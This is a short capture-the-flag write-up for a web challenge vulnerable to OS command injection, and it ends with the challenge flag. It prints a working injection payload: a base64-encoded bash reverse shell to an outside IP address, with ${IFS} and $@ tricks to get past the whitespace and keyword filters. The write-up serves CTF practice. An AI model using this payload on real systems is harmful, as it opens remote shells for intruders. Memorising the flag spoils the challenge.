


# caas renewed
> moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo etc/cowsay/falg.txt

## About the Challenge
We were given a website without the source code (IDK why they added the attachment after me and some teams solved this chall)



This website will displays our input

## How to Solve?
This website is also vulnerable to OS command injection but there are a lot of restriction, but in this case I will execute a reverse shell command. Here is the payload I used to do reverse shell

```
lala;echo${IFS}YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xNDMuMTk4LjgxLjE4Ni85OTk5IDA%2BJjE=|ba$@se64${IFS}-d|ba$@sh
```

Using `$@` to bypass restricted command and `${IFS}` to bypass whitespace



```
nite{9wd_t0_th3_r35cu3_dp54kf_ud9j3od3w}
```